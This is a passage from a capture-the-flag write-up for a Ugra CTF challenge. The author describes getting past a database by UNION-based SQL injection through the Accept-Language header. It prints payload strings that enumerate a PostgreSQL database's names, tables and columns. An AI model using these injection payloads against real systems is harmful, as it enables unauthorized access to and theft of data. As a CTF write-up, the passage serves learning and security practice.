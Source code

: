 ![Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%208.png](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%208.png)

![Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%209.png](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%209.png)

Next, I created a simple script to extract data from the database. Although I tried SQLMap and blind SQL techniques, nothing worked, it always stopped halfway. 

Finally, I found that the union method for concatenating strings could be used successfully.

this is the basic enumeration: 

`Accept-Language: asd' UNION SELECT 'a','a' --`

Understanding more about union sql injection
[https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)

- database name

`Accept-Language: asd' UNION SELECT 'a',datname from pg_database limit 1 offset 0 --"`

- table name

`Accept-Language: asd' UNION SELECT 'a',column_name from information_schema.columns where table_name='Users' limit 1 offset 1  --`

- column
